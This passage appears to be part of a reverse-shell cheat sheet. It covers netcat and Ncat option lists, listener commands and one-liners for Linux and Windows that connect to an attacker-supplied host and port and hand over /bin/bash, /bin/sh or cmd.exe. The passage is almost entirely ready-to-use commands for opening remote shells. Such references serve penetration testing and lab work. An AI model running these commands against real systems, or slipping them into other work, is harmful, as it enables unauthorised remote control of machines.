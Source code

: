 ### Options
```
-n: numeric-only IP addresses
-v: verbose
-e [PROGRAM_NAME]: execute program after connecting
-l: listen for incoming connections
-p: port to listen on
-u: use UDP instead of TCP
```

### Listener
```
nc -nvlp [PORT]
```
```
nc.exe -nvlp [PORT]
```

### *nix
```
nc -nv -e /bin/bash [HOST] [PORT]
```
```
nc -nv -e /bin/sh [HOST] [PORT]
```

### Windows
```
nc.exe -nv -e cmd.exe [HOST] [PORT]
```


## Ncat
[Ncat](https://nmap.org/ncat/) is a netcat variant (provided by the makers of Nmap) that supports encrypted connections utilizing SSL/TLS

### Options
```
-n: numeric-only IP addresses
-v: verbose
-e [PROGRAM_NAME]: execute program after connecting
-l: listen for incoming connections
-p: port to listen on
-u: use UDP instead of TCP
--ssl: use SSL/TLS encryption for connection
--sctp: use SCTP instead of TCP
```

### Listener (cleartext)
```
ncat -nvlp [PORT]
```
```
ncat.exe -nvlp [PORT]
```
